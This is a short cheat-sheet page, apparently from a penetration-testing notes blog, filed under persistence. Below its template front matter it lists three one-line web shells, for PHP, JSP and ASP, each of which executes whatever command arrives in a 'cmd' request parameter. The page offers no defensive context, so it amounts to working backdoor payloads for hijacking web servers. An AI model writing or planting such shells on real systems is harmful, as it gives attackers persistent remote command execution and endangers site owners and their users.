 ```yaml
---
description: >-
  Webshells
title: WebShells              # Add title here
date: 2023-12-26 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence, Webshells]                     # Change Templates to Writeup
tags: [persistence, webshell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### PHP WEB SHELL
```php
<?php system($_REQUEST["cmd"]); ?>
```
### JSP WEBSHELL
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
### ASP WEBSHELL
```asp
<% eval request("cmd") %>
```